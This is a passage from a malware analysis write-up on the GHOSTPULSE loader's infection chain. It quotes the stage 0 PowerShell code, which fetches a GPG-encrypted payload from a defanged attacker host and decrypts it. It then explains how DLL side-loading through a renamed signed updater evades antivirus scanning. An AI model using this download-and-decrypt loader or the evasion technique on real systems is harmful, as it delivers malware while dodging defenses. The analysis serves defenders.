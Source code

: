 We consider the PowerShell script dropped by the malicious MSIX installer to be the stage 0 payload. The PowerShell script is typically included in MSIX infection vectors, but not always in other GHOSTPULSE infection methods (MSI, EXE, ISO). In one sample, the PowerShell script downloads a GPG-encrypted file from `manojsinghnegi[.]com/2.tar.gpg`. 

Next, the PowerShell script decrypts the file using the command-line GPG utility using the following parameters:

- `putin` - the passphrase for the GPG file
- `--batch` - execute GPG in non-interactive mode
- `--yes` - answer “yes” to any prompts
- `--passphrase-fd 0` - read the passphrase from a file descriptor, 0 instructs GPG to use STDIN, which is putin
- `--decrypt` - decrypt a file
- `--output` - what to save the decrypted file as

```
# 1
$url = "https://manojsinghnegi[.]com/2.tar.gpg"
$outputPath = "$env:APPDATA\$xxx.gpg"
Invoke-WebRequest -Uri $url -OutFile $outputPath

# 1
echo 'putin' | .$env:APPDATA\gpg.exe --batch --yes --passphrase-fd 0 --decrypt --output $env:APPDATA\$xxx.rar $env:APPDATA\$xxx.gpg
```

The GPG utility is included in the malicious MSIX installer package.

The decrypted file is a tar archive containing an executable `VBoxSVC.exe` which is in reality a renamed signed `gup.exe` executable that is used to update Notepad++, which is vulnerable to sideloading, an encrypted file in one example `handoff.wav` and a mostly benign library `libcurl.dll` with one of its functions overwritten with malicious code. The PowerShell executes the binary `VBoxSVC.exe` that will side load from the current directory the malicious DLL `libcurl.dll`. By minimizing the on-disk footprint of encrypted malicious code, the threat actor is able to evade file-based AV and ML scanning.

![File metadata of VBoxSVC.bin](/assets/images/ghostpulse-haunts-victims-using-defense-evasion-bag-o-tricks/image11.png)

### Stage 1

The first stage of GHOSTPULSE is embedded within a malicious DLL that undergoes side-loading through a benign executable. Execution of the corresponding code is triggered during the *DllEntryPoint* phase. 

The process is initiated by pinpointing the base address of the malicious DLL of `libcurl.dll`, achieved through parsing the *InLoadOrderModuleList* API. This list, residing in the Process Environment Block (PEB), systematically records information about loaded modules.

![Parsing the InLoadOrderModuleList structure](/assets/images/ghostpulse-haunts-victims-using-defense-evasion-bag-o-tricks/image13.png)

Next, GHOSTPULSE builds an Import Address Table (IAT) incorporating essential APIs. This operation involves parsing the *InLoadOrderModuleList* structure within the Process Environment Block (PEB).

![Stage 1 hashing algorithm](/assets/images/ghostpulse-haunts-victims-using-defense-evasion-bag-o-tricks/image13.png)
